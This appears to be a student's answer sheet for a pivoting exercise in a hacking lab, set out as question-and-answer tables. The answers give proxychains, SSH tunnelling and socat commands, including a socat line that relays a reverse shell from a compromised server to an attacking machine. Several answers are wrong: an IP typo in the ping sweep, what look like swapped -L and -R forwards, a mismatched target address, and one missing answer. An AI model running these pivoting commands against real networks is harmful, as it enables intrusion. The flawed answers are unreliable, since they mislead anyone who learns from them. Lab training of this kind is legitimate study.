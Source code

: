 

## Pivoting : Enumeration

| Qu3$t10n$ | 4n$w3r$ |
|-----------|---------|
| What is the absolute path to the file containing DNS entries on Linux ? |
| What is the absolute path to the hosts file on Windows ? | C:\Windows\System32\drivers\etc\hosts |
| How could you see which IP address are active and allow ICMP echo requests on the 172.16.0.x/24 network using Bash ? | for i in {1..255}; do (ping -c 1 72.16.0.${i} | grep "bytes from" &); done |


## Pivoting : Proxychains & Foxyproxy

| Qu3$t10n$ | 4n$w3r$ |
|-----------|---------|
| What line would you put in your proxychains config file to redirect through a socks4 proxy on 127.0.0.1:4242 ? | socks4 127.0.0.1 4242 |
| What command would you use to telnet through a proxy to 172.16.0.100:23 ? | proxychains telnet 172.16.0.100 23 |
| Which tool is more apt for proxying to a webapp: Proxychains (PC) or FoxyProxy (FP)? | FP |

## Pivoting : SSH Tunnelling / Port Forwarding   

| Qu3$t10n$ | 4n$w3r$ |
|-----------|---------|
| If you're connection to an SSH server from your attacking machine to create a port forward, would this be a local(L) port forward or a remote(R) port forward ? | L |
| Which switch combination can be used to background an SSH port forward or tunnel ? | -fN |
| It's a good idea to enter our own password on the remote machine to set up a reverse proxy, Aye or Nay ? | Nay |
| If you wnated to set up a reverse portforward from port 22 of a remote machine(172.16.0.100) to port 2222 of your local machine (172.16.0.100), using a keyfine called id_rsa and backgrounding the shell, What command would you use ? (Assume the usename is kali) | ssh -L 2222:172.16.0.100:22 kali@172.16.0.100 -i id_rsa -fN |
| What command would you use to set up a forward proxy on port 8000 to user@target.thm, backgrounding the shell ? | ssh -D 8000 user@target.thm -fN |
| If you had SSH access o a server (172.16.0.50) with a webserver runniing internally on port 80(i.e. only accessible to the server itself on 127.0.0.1:80), how would you forward it to port 8000 on your attacking machine? Assume the username is "user", and background the shell. | ssh -R 8000:127.0.0.1:80 user@172.16.0.50 -fN |

## Pivoting : plink.exe

| Qu3$t10n$ | 4n$w3r$ |
|-----------|---------|
| What tool can be used to convert OpenSSH keys into PuTTY style keys ? | puttygen |




## Pivoting : Socat

| Qu3$t10n$ | 4n$w3r$ |
|-----------|---------|
| Which socat option allows you to reuse the same listening port for more than one connection ? | reuseaddr |
| If your attacking IP is 172.16.0.200, how would relay a reverse shell to TCP port 443 on your Attacking Machine using a static copy of socat in the current directory ? | ./socat  tcp-l:8000 tcp:172.16.0.200:443 & |
| What command would you use to forward TCP port 2222 on a compromised server, to 172.16.0.200:22, using a static copy of socat in the current directory, and backgrounding the process(easy method) ? | ./socat tcp-l:2222,fork,reuseaddr 172.16.0.100:22 & |
